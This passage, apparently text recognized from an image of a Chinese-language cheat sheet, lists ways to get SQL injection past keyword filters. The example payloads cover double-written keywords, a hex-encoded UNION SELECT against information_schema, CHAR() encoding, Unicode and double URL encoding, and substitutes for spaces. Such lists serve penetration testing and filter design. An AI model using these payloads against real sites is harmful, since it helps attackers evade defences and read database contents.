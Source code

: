 举例

    union seselectlect 1,2
    
### 特殊编码绕过

#### 十六进制绕过

举例

    UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name=0x61645F6C696E6B
    
#### ASCII编码绕过

举例

    Test =CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)
    
#### Unicode编码绕过

Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了

举例

    单引号: %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
    空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
    左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
    右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
    
> %u 用于在url中表示Unicode字符
>
> \u 用于在字符串中表示Unicode字符

#### URL编码绕过

对被拦截的关键字做一次或两次URL全编码

举例

    and 进行两次全编码为%25%36%31%25%36%65%25%36%34
    
进行双重URL编码

举例

    and 进行双重编码为%2561%256e%2564
    
### 关键字替换绕过

#### 空格

可替换的方式

* /**/
* ()
* 回车，即url编码的%0a
* `  tab键上的按钮
* 两个空格
